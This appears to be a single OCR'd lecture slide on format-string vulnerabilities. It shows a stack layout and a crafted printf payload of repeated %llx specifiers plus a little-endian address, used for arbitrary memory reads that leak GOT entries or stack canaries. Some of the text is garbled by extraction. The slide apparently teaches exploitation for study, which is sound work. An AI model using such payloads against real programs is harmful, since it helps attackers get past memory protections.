

|  |
| --- |
| %llx%llx %llx%llx %llx%llx %llx%$11 sAAAAAAA \x08\x47\x55\x55 \x55\x55\x00\x00 |
| … |
| saved rbp |
| saved rip (return address) |
| … |
# Arbitrary READ
rsp ->

char buf[] =
 “%llx%llx%llx%llx%llx%llx %llx%$11s\n” + little_end (0x555555554708);
printf(buf);

“%llx %llx %llx %llx %llx %s %llx %llx\n”;

GOT entry,
Stack canary, …
rbp ->
rbp + 8 ->
21